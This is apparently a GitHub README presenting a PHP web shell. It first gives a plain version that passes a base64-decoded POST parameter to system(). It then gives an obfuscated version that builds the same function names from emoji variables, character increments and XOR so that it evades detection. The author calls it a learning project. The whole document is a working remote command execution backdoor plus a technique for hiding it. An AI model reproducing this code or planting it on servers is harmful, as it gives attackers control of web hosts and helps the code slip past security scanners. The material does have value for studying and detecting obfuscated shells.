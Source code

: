 # php-emoji-webshell

🥸 Nothing new about this webshell, just use same techniques like XOR and self increment operations.

Basically this code
```
<?php

$a = $_POST[4] ? base64_decode($_POST[4]) : 'whoami';
@system($a);

```
Turn into emoji, self increment and XOR operations.

```
<?php

$_=[];
$_=@"$_";
$__=("_"=="_")+("_"=="_");
$_=@$_[++$__];

$🌏=$_++;
$🤮=$_++;
$🍪=$_++;
$🫣=$_++;
$🧁=$_++;
$🎂=$_++;
$🥃=$_++;
$🍔=$_++;
$🌘=$_++;
$🌗=$_++;
$🌖=$_++;
$🌕=$_++;
$🌒=$_++;
$🌓=$_++;
$🌔=$_++;
$🌰=$_++;
$🍘=$_++;
$🥗=$_++;
$🥥=$_++;
$🍑=$_++;
$🍋=$_++;
$🧇=$_++;
$🌮=$_++;
$🍕=$_++;
$🥯=$_++;
$🍣=$_;

$__++;
$__++;
$__++;
$👿=$🤮.$🌏.$🥥.$🧁.$__;
$__--;
$__--;
$👿.=$__.("#"^"|").$🫣.$🧁.$🍪.$🌔.$🫣.$🧁;

$💀=$🥥.$🥯.$🥥.$🍑.$🧁.$🌒;
$🥳=("#"^"|").($🥥^"#").($🌕^"#").($🌰^"#").($🌮^"#"); 
$🤯=@${$🥳}[$__] ? $👿(@${$🥳}[$__]) : $🌮.$🍔.$🌔.$🌏.$🌒.$🌘;
@$💀($🤯);

```

Im just building this for fun and for the sake of learning new things. ☕️🥯

